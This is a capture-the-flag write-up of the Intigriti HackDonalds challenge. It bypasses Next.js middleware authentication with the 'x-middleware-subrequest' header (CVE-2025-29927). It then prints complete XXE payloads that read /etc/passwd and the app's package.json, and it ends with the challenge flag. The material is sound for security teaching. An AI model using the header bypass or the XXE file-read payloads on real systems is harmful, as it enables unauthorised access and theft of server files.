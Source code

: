 ```yaml
---
title: Intigriti Challenge - HackDonalds
date: 2025-04-15
tags: [bug bounty, challenge, ctf]
categories: [Bug Bounty, CTF Writeups]
author: 2Fa0n
img_path: /assets/img/intigriti-challenge-hackdonalds
image: /assets/img/intigriti-challenge-hackdonalds/intigriti_banner.png
---
```


# Intigriti Challenge - HackDonalds 🍔
**Author:** Basetin, CryptoCat <br>
**Target:** [HackDonalds 🍔](https://hackdonalds.intigriti.io)

## Description
Find the FLAG 🚩

## Solution
After going through the website, we can see there just a simple Donalds homepage and food menu. <br>

![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_1.png)
![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_2.png)

When we click at the `ADMIN` button, we see a login form with `secret sauce password`. <br>

![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_3.png)

After enter some common credentials, we can not login to admin panel. Let's check the tech stack of the website. <br>

![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_4.png)

We found `Next.js 13.2.0` and checking twitter found a really interesting blog about [CVE-2025-29927](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware), which is a critical vulnerability in Next.js from `11.1.4` up to `15.1.7` which allows middleware bypass with a specific header `x-middleware-subrequest`.

Let's exploit this with `x-middleware-subrequest` header. We need to a following header into our request: `x-middleware-subrequest: middleware`. <br>
Go to `Burp Suite settings` and look for `HTTP match and replace rules` and add a new rule:

![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_5.png)
![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_6.png)

After that, we can refresh and see the admin panel. <br>

![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_7.png)

When we click on to these 4 super secret admin area, we can only click to `Ice Cream Machines` and redirect us to `/ice-cream-machines` page. <br>

![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_8.png)

Then we `View Settings` and see a `XML Configuration Settings` file. <br>

![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_9.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<machine>
  <id>1</id>
  <name>Ice Cream Machine</name>
  <temperature>-18</temperature>
  <mixLevel>75</mixLevel>
  <lastMaintenance>2025-03-15</lastMaintenance>
  <cleaningSchedule>Daily</cleaningSchedule>
</machine>
```

Normally when facing the XML file, we can think about the `XXE` vulnerability. <br>
Let's try some payload to test information disclosure. <br>
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE machine [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<machine>
  <id>1</id>
  <name>&xxe;</name>
  <temperature>-18</temperature>
  <mixLevel>75</mixLevel>
  <lastMaintenance>2025-03-15</lastMaintenance>
  <cleaningSchedule>Daily</cleaningSchedule>
</machine>
```

![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_10.png)

We are able to retrieve the `/etc/passwd` file. <br>
Hmm, so how to read the flag? <br>
After searching on google, we found a [Project Structure and organization](https://nextjs.org/docs/app/getting-started/project-structure) in `Next.js`. We go through and found flag in `/app/package.json` file. <br>

![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_11.png)
![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_12.png)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE machine [
  <!ENTITY xxe SYSTEM "file:///app/package.json">
]>
<machine>
  <id>1</id>
  <name>&xxe;</name>
  <temperature>-18</temperature>
  <mixLevel>75</mixLevel>
  <lastMaintenance>2025-03-15</lastMaintenance>
  <cleaningSchedule>Daily</cleaningSchedule>
</machine>
```

![image](/assets/img/intigriti-challenge-hackdonalds/intigriti_13.png)

There we go the flag in `package.json` which is a common file in Node. <br>

**Flag:** `INTIGRITI{XXE_1n_Ic3Cr34m_M4ch1n3s}`
